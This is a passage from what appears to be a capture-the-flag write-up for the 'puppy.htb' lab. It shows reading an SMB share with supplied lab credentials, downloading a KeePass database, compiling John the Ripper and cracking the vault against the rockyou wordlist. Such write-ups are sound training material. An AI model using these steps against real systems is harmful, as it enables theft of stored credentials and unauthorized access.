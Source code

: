 Now we're able to read the `DEV` share!
```bash
┌──(kali@kali)-[~/puppy.htb]
└─$ smbclient.py 'levi.james:KingofAkron2025!@puppy.htb' 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Type help for list of commands
# use DEV
# ls
drw-rw-rw-          0  Sun Mar 23 03:07:57 2025 .
drw-rw-rw-          0  Sat Mar  8 11:52:57 2025 ..
-rw-rw-rw-   34394112  Sun Mar 23 03:09:12 2025 KeePassXC-2.7.9-Win64.msi
drw-rw-rw-          0  Sun Mar  9 16:16:16 2025 Projects
-rw-rw-rw-       2677  Tue Mar 11 22:25:46 2025 recovery.kdbx
# get recovery.kdbx
```

### levi.james -> ant.edwards
The share hosts a `KeePass` database file which we can extract credentials from! But when we try to open the file we're prompted for a password. Let's try and crack it

Using `keepass2john` didn't work
```bash
┌──(kali@kali)-[~/puppy.htb]
└─$ keepass2john recovery.kdbx > crack.txt
! recovery.kdbx : File version '40000' is currently not supported!
```

`keepass2john` [isn't supported](https://github.com/openwall/john/issues/5775){:target="_blank"}{:rel="noopener noreferrer"} by the base `john` installation so we need to install the latest package
```bash
┌──(kali@kali)-[~/puppy.htb]
└─$ git clone https://github.com/openwall/john -b bleeding-jumbo john
```

Following the [installation doc](https://github.com/openwall/john/blob/bleeding-jumbo/doc/INSTALL){:target="_blank"}{:rel="noopener noreferrer"} we can compile the source to generate the `keepass2john` file
```bash
┌──(kali@kali)-[~/puppy.htb/john/src]
└─$ ./configure && make
```

Now we can convert and crack
```bash
┌──(kali@kali)-[~/puppy.htb]
└─$ ./john/run/keepass2john recovery.kdbx > crack.txt
```

```bash
┌──(kali@kali)-[~/puppy.htb]
└─$ ./john/run/john --wordlist=/usr/share/wordlists/rockyou.txt --fork=3 --progress-every=30 crack.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [AES/Argon2 128/128 SSE2])
Cost 1 (t (rounds)) is 37 for all loaded hashes
Cost 2 (m) is 65536 for all loaded hashes
Cost 3 (p) is 4 for all loaded hashes
Cost 4 (KDF [0=Argon2d 2=Argon2id 3=AES]) is 0 for all loaded hashes
Warning: OpenMP was disabled due to --fork; a non-OpenMP build may be faster
Node numbers 1-3 of 3 (fork)
Note: Passwords longer than 41 [worst case UTF-8] to 124 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Failed to use huge pages (not pre-allocated via sysctl? that's fine)
<PASSWORD_REDACTED>        (recovery)     
3 1g 0:00:00:19 DONE (2025-08-20 14:08) 0.05089g/s 0.6107p/s 0.6107c/s 0.6107C/s <PASSWORD_REDACTED>
1 0g 0:00:00:19 DONE (2025-08-20 14:08) 0g/s 0.6030p/s 0.6030c/s 0.6030C/s justin
```